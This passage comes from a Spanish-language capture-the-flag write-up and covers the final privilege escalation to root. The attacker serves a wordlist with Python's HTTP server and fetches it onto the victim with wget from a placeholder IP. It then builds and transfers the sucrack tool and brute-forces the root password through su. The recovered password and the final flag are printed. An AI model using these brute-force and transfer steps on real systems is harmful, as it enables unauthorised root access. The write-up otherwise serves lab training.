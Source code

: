 ```shell
python3 -m http.server 80
```

En la maquina victima...

```shell
cd /tmp/
```

```shell
wget http://<IP>/dic.txt
```

Una vez hecho esto ya tendriamos el diccionario que utilizaremos para probar las crontraseñas para explotar al usuario `root`...

Utilizaremos un repositorio de `GitHub` llamado `sucrack`...

URL = https://github.com/hemp3l/sucrack

Esto nos lo descargamos en nuestro `host` y hacemos lo siguiente...

```shell
git clone https://github.com/hemp3l/sucrack.git
```

```shell
cd sucrack/ 

./configure 

make 

tar -cvf sucrack.tar sucrack/
```

Una vez hecho todo eso mediante `python` nos pasamos el archivo nuevamente comprimido...

```shell
tar -xvf sucrack.tar
```

Una vez descomprimido hacemos lo siguiente...

```shell
cd /sucrack/src/
```

```shell
./sucrack -u root dict.txt
```

Info:

```
Password is: 789456123
```

Por lo que nos cambiamos a `root`...

```shell
su root
```

Una vez siendo `root` leeremos la flag...

> flag.txt (flag\_final)

```
Congratulations!

flag: a67d764105005a6a95a9c8c03bc95710bc396dccc4364704127170637b2bd39d
```
